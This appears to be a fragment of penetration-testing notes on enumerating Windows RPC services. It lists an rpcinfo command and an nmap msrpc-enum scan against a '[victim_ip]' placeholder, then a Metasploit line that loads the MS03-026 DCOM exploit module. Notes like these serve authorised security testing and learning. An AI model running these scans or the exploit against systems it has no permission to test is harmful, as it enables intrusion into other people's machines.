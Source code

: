 ### rpc
```
rpcinfo -p [victim_ip]
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### nmap
```
nmap [vitim_ip] --script msrpc-enum
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### metasploit
```
msf> use exploit/windows/dcerpc/ms03_026_dcom
```
